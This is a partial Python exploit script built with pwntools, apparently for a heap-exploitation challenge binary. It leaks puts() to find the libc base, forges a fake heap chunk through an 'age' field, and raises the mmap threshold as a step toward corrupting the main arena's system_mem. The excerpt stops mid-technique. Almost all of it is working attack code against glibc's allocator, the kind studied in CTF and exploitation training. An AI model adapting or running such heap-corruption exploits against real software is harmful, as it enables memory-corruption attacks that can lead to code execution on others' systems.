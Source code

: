 ```python
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

index = 0

# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
    global index
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")
    index += 1
    return index - 1

# Select the "free" option; send index.
def free(index):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

# Select the "amend age" option; send new value.
def amend_age(age):
    io.send(b"3")
    io.sendafter(b"age: ", f"{age}".encode())
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1

# =============================================================================

# =-=-=- PREPARE A FAKE CHUNK -=-=-=

# Craft a fake chunk using the "age" field.
# Set its prev_inuse flag to avoid backward consolidation.
# This fake chunk has a size of 0, so it acts as its own forward consolidation guard.
age = 1

io.sendafter(b"age: ", f"{age}".encode())
io.recvuntil(b"> ")


# =-=-=- INCREASE MMAP THRESHOLD -=-=-=

# Before we can increase the main arena's system_mem value, we must increase the mmap_threshold.
# We do this by requesting then freeing a chunk with size beyond the mmap threshold.
mem = malloc(0x5fff8, b"Y"*8) # Allocated via mmap().
free(mem) # Freeing an mmapped chunk increases the mmap threshold to its size.


# =-=-=- INCREASE SYSTEM_MEM -=-=-=

```